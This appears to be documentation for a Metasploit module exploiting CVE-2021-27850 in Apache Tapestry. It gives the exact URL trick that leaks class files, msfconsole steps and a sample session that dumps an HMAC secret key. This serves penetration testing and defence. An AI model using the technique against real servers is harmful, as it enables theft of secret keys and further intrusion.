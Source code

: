 ## Description

This module exploits CVE-2021-27850 which affects several versions of Apache Tapestry. The versions concerned are at least 5.4.5, 5.5.0, 5.6.2 and 5.7.0. This CVE allows an attacker to leak the source code of a Tapestry server by requesting a particular `.class` file with its name through the url with an extra `/` at the end: http://tapestryhost:8080/assets/something/services/AppModule.class/. Due to this, it is possible to leak the HMAC secret key which is located in `AppModule.class` by default.

## Installation

A vulnerable version of Apache Tapestry can be downloaded from [here](https://downloads.apache.org/tapestry/apache-tapestry-5.7.0-bin.zip). I highly recommend you to follow the Tapestry tutorial [there](https://tapestry.apache.org/tapestry-tutorial.html). It will guide you through all the steps from setting up to launching a demo skeleton of your server.

## Verification Steps

List the steps needed to make sure this thing works

- 1. Start `msfconsole`
- 2. `use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key`
- 3. `set RHOST <target_host>` and `set RPORT <target_port>`
- 4. `check` to check if the targeted Tapestry server is vulnerable or not
- 5. `set targeted_class` if you want to target another class than the default one (AppModule.class) 
- 6. `run` the module to exploit the CVE and leak the secret key !

## Options

**RHOSTS**

Set the target host.

**RPORT**

Set the target port. The default value is `8080` which is the default value used by Tapestry server.

**TARGETED_CLASS**

This is not a required option and by default the value is `AppModule.class` which is also the default java class of by Tapestry server where the hmac key is set. But in case you want to target a different java class, it can be done by setting this option with another class name.

## Scenarios

```
msf > use auxiliary/gather/cve_2021_27850_apache_tapestry_hmac_key
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set rhost 172.16.215.155rhost => 172.16.215.155
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > set targeturi /hotels
targeturi => /hotels
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > check

[+] Java file leak at 172.16.215.155:8080/hotels/assets/app/bf78ed9f/services/AppModule.class/
[+] 172.16.215.155:8080 - The target is vulnerable.
msf auxiliary(gather/cve_2021_27850_apache_tapestry_hmac_key) > run
[*] Running module against 172.16.215.155

[+] Apache Tapestry class file saved at /user/.msf4/loot/20210721173200_default_172.16.215.155_tapestry.AppModu_493080.bin.
[+] HMAC key found: 3e986070-b0d6-4634-93fe-4febebc90529.
[*] Auxiliary module execution completed
```
